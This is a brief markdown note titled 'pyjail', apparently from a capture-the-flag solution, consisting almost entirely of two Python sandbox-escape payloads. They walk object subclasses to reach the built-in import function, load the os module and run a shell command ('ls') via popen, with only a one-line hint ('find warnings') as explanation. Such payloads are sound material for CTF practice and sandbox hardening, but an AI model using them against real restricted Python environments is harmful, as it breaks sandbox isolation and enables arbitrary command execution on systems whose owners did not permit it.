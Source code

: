 # pyjail

找 warnings
`''.__class__.__mro__[1].__subclasses__()[182].__init__.__dir__()`

`''.__class__.__mro__[1].__subclasses__()[182].__init__.__globals__["__builtins__"]["__import__"]('os').popen('ls').read()`
